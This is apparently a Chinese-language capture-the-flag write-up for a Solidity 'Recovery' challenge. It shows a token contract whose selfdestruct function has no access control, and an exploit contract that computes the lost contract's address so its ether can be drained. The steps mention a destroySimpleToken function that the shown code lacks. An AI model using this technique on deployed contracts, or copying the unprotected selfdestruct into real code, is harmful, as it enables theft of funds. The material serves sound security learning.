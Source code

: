 # recovery
## 題目
<img width="636" alt="截圖 2024-09-18 下午10 50 38" src="https://github.com/user-attachments/assets/45950f5b-9640-4999-bd76-90d96bb83175">

### point：
1. **合約地址推算**：在以太坊中，當合約創建時，它的地址是根據創建者地址和創建者的交易 nonce 計算出來的。這意味著，如果我們知道某個合約創建了另一個合約，我們可以根據該合約的地址推算出被創建合約的地址。
2. **`selfdestruct` 函數**：這個函數可以用來銷毀合約並將剩餘的以太幣轉移到指定地址。這裡，我們會利用 `SimpleToken` 合約中的 `destroy` 函數來達成這個目的。

## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
#### Recovery 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    // Generate tokens by creating a new SimpleToken contract
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}
```
- `Recovery` 合約中的 `generateToken` 函數會創建一個新的 `SimpleToken` 合約，但不會儲存其地址。我們需要推算出這個新合約的地址，然後進行攻擊。

#### SimpleToken 合約
```solidity
contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // Constructor to initialize token name and balance for the creator
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // Accept Ether and assign tokens based on value
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // Allow token transfer
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // Destroy the contract and transfer remaining Ether to a specified address
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
- `SimpleToken` 合約有 `selfdestruct` 函數，我們可以利用它來銷毀合約並將剩餘資金轉回到指定的地址。

## hack
```solidity
pragma solidity ^0.8.0;

// 0x8186f965Fb89F4Ca221d2F62d92A6E33a7d4e8c6?
interface ISimpleToken {
    function name() external view returns (string memory);
    function destroy(address to) external;
}

// 0x99CE90aEae1DcFC3A5E0050287e4ea3788799854
interface IRecovery {}

contract Dev {
    function recover(address sender) external pure returns (address) {
        bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x01)));
        address addr = address(uint160(uint256(hash)));
        return addr;
    }
}
```
### 攻擊流程：
1. 部署 `Dev` 合約。
2. 使用 `recover` 函數計算出 `SimpleToken` 的地址：
   - 將 `Recovery` 合約的地址和 nonce 作為參數傳入，計算出新創建的 `SimpleToken` 合約的地址。
3. 使用 `destroySimpleToken` 函數來調用 `SimpleToken` 的 `destroy` 函數，將 `SimpleToken` 合約中的資金轉移到攻擊者的地址。



### 總結：
這個攻擊利用了 Solidity 中合約地址的可推算性以及 `selfdestruct` 函數來回收被銷毀的資金。通過推算出目標合約的地址並調用其 `selfdestruct`，我們可以將合約內的剩餘資金轉移到我們自己的帳戶。
